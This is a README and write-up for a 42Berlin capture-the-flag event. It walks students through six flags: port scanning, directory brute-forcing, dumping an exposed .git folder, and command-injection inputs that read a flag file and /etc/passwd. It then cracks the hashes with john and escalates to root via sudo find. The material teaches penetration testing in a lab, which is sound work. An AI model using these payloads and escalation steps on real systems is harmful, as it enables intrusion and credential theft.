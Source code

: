 # 42Berlin CTF July 2024

This repo contains the service used for the CTF hosted in 42Berlin in July 2024.

In order to host it again, a new service needs to be deployed for it to submit the flags.
The project https://ctfd.io/ is an easy and customizable option.

## Content

The service is deployed using docker-compose. It creates a container running the following services:
- Port 22: SSH server with password authentication configured
- Port 4242: Python Flask server hosting the vulnerable service
- Port 42424: Python Flask server hosting a single page with a flag

The directory tools is not used in the deployment, it contains the files and tools provided to students
during the challenge.

## Write-Up

This CTF is meant to be an introduction to penetration testing, where very step is awarded with a flag.

### Flag 1
The first flag is after performing a port scan with nmap.
```
$ nmap -p- hackme.42berlin.de
```
After scanning all ports, nmap shows that the ports 22, 4242 and 42424 are open. The flag is present in the port 42424.

### Flag 2
The second flag is found after brute-forcing the directories running on port 4242. Also a .git folder is present.
```
$ gobuster dir -u http://hackme.42berlin.de:4242 -w /usr/share/wordlists/fuzzing_wordlist.txt
```
### Flag 3
For the third flag, it is necessary to read the source code of the application. In order to do this, the tool gitdumper is available.
```
$ git-dumper http://hackme.42berlin.de/.git /tmp/ctf_git_dump
```
After dumping the source code, two interesting things are found:
- The flag
- Credentials to authenticate as an administrator in the application

### Flag 4
After authenticaing, users can test the admin tool.

By analizing the code, a vulnerable line is found when executing the file check_command.sh. As the input is not properly sanitized,
users can execute arbitrary shell commands on the server.

Input to get the flag:
"$(cat /home/adrian/flag.txt)"

### Flag 5
To get the fifth flag, its necessary to read the /etc/passwd file on the server

Input to get the hash:
"$(cat /etc/passwd)"

To crack the hash, the tool john the ripper is provided.
```
$ john hash.txt –wordlist=/usr/share/wordlists/password_wordlists.txt
```
To get the flag, login via ssh as pedro:
```
$ ssh -p 22 pedro@hackme.42berlin.de
# cat /home/pedro/flag.txt
```
### Flag 6
The last flag can be found after rooting the server. To do this, basic Linux enumeration will do the trick.
```
$ sudo -l
User pedro may run the following commands on 6f8198e12837:
    (ALL) /bin/find
```
The find command can be used to escalate privileges if the command is executed with the root PID -> https://gtfobins.github.io/gtfobins/find/
```
$ sudo find / -exec /bin/bash \;
# cat /root/flag.txt
```
